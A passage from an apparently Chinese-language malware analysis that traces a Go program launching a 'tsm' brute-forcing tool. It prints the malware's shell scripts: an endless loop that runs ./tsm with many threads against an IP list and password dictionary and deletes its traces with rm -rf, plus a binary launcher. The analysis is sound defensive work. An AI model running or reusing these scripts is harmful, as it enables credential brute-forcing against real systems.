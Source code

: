```

exit 0
```

**一直追下去，发现在go脚本中启动了tsm脚本，执行目录下的tsm传入要爆破的IP和字典**
```
#!/bin/bash
dir=`pwd`
cd $dir

threads=535

ARCH=`uname -m`
if [[ "$ARCH" =~ ^arm ]]; then
	threads=75
fi



		while :
		do
		touch v
		rm -rf p
		rm -rf ip
		rm -rf xtr*
		rm -rf a a.*
		rm -rf b b.*
		
		sleep $[ ( $RANDOM % 30 )  + 1 ]s
		timeout 9h ./tsm -t $threads -f 1 -s 12 -S 9 -p 0 -d 1 p ip

		sleep 3
		rm -rf xtr*
		rm -rf ip
		rm -rf p
		rm -rf .out
		rm -rf /tmp/t*
		done
exit 0
```

**tsm脚本**
```
#!/bin/bash
SCRIPT_PATH=$(dirname $(readlink -f $0))
ARCH=`uname -m`
if [ "$ARCH" == "i686" ]; then
	$SCRIPT_PATH/lib/32/tsm --library-path $SCRIPT_PATH/lib/32/ $SCRIPT_PATH/tsm32 $*
elif [ "$ARCH" == "x86_64" ];   then		
	$SCRIPT_PATH/lib/64/tsm --library-path $SCRIPT_PATH/lib/64/ $SCRIPT_PATH/tsm64 $*
fi
```

<br>
# 参考
[腾讯官方分析 https://www.freebuf.com/articles/network/205384.html](https://www.freebuf.com/articles/network/205384.html)
[问题排查https://cloud.tencent.com/document/product/296/9604](https://cloud.tencent.com/document/product/296/9604)
